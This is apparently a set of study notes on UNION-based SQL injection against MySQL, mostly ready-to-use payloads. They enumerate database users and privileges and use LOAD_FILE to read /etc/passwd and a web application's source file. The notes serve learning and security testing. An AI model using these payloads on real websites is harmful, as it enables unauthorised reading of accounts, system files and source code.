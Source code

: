 ## Privileges
* DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files

#### DB User
* First determine which user we are
* We do not necessarily need database administrator (DBA) privileges to read data

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

#### User Privileges
```sql
SELECT super_priv FROM mysql.user
```

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

* If there are multiple users in the DBMS

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

* Dump additional privileges

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE user="root"-- -
```

## LOAD_FILE
```sql
SELECT LOAD_FILE('/etc/passwd');
```

**Note**: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

## Another Example
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

